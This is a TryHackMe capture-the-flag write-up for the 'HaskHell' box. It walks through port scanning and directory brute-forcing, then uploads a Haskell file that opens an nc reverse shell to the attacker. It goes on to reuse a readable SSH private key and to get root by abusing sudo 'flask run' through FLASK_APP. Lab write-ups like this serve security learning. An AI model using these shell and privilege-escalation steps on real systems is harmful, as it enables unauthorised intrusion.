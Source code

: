 ```yaml
---
title: TryHackMe - HaskHell
description: My writeup on HaskHell box.
categories:
 - tryhackme
tags: tryhackme Haskhell ssh flask
---
```


![](https://i.imgur.com/kx7mZbu.png)

## Box Stats

| Box Info      | Details       |
| ------------- |:-------------:|
| Box Name :    | **HaskHell**  |
| Difficulty :  | **Medium**             |   
| Play :    | [HaskHell](https://tryhackme.com/room/haskhell){:target="_blank"}      |
| Recommended : | Yes :heavy_check_mark:      |

## Summary

This was a really awesome box, that i learnt some new things. We have to upload a haskhell reverse shell, then we have 2 privescs one is about SSH private key & then last one for root is about FLASK. Let's start!

## Enumeration/Reconnaissance

Now as always let’s continue with a nmap scan. (Note: Takes some time)

```
$ ip=10.10.156.95                           
$ nmap -p- -sC -sV -oN nmap/haskhell.thm $ip
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-27 13:33 EET
Nmap scan report for 10.10.156.95 (10.10.156.95)
Host is up (0.17s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Homepage
```

Once we visit the port 5001, we can see an article about functional programming & Haskell. Without wasting more time let's fire up `gobuster`.

```
$ gobuster dir -q -u http://$ip:5001/ -w $medium -x php,txt,html -o scans/gobuster.txt
/submit (Status: 200)
```

`/submit` is an upload form, homework page says that `Only Haskell files are accepted for uploads.` Haskhell is a purely functional programming language with file extension `.hs`

I've never heard of this language so i googled how can i execute system commands using HaskHell & i found this:

```HaskHell
module Main where

import System.Process

main = callCommand "whoami"
```

I guess when we upload our file it gets compile `ghc -o shell shell.hs` & execute it in background `./shell.hs` & then shows us the result.

## Shell as flask

So let's simply execute a reverse shell. Save it as `shell.hs` & upload it.

```HaskHell
module Main where

import System.Process

main = callCommand "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc tun0_ip_address 5555 >/tmp/f"
```

```
$ nc -lvp 5555
listening on [any] 5555 ...

$ python -c 'import pty; pty.spawn("/bin/bash")'
flask@haskhell:~$ whoami;id
flask
uid=1001(flask) gid=1001(flask) groups=1001(flask)
```

We can read now the `user.txt`

```
flask@haskhell:~$ find / -name "user.txt" 2>/dev/null
/home/prof/user.txt
flask@haskhell:~$ cat /home/prof/user.txt
flag{TRY_DO_IT_ALONE}
```

## Shell as prof

Under `/home/prof` i noticed that we can access the `.ssh` folder and use his SSH private key. So we have an easy privesc.

```
flask@haskhell:/home/prof/.ssh$ ls -la
total 20
drwxr-xr-x 2 prof prof 4096 May 27  2020 .
drwxr-xr-x 7 prof prof 4096 May 27  2020 ..
-rw-rw-r-- 1 prof prof  395 May 27  2020 authorized_keys
-rw-r--r-- 1 prof prof 1679 May 27  2020 id_rsa
-rw-r--r-- 1 prof prof  395 May 27  2020 id_rsa.pub
flask@haskhell:/home/prof/.ssh$ ssh -i id_rsa prof@localhost

$ bash -i
prof@haskhell:~$ whoami;id
prof
uid=1002(prof) gid=1002(prof) groups=1002(prof)
```

## Shell as root

While doing the manual enumeration for privesc, `sudo -l` says that we can run `flask` as root!

```
prof@haskhell:~$ sudo -l
Matching Defaults entries for prof on haskhell:
    env_reset, env_keep+=FLASK_APP, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prof may run the following commands on haskhell:
    (root) NOPASSWD: /usr/bin/flask run
```

Flask is a web framework, it’s a Python module that allow us to develop web applications easily. Using the `flask run` command we can execute our web application but isn't that simple we have first to tell flask how to import it using the `FLASK_APP` environment variable!

So let's make a file under `/tmp` to execute `/bin/bash` using the `os.system` function.

```
prof@haskhell:/tmp$ printf "import os\nos.system('/bin/bash')" > root.py
prof@haskhell:/tmp$ export FLASK_APP=root.py
prof@haskhell:/tmp$ sudo flask run
root@haskhell:/tmp# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Let's read the final flag:

```
root@haskhell:/root# cat root.txt
flag{TRY_DO_IT_ALONE}
```

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"}

Until next time keep pwning hard! :fire:
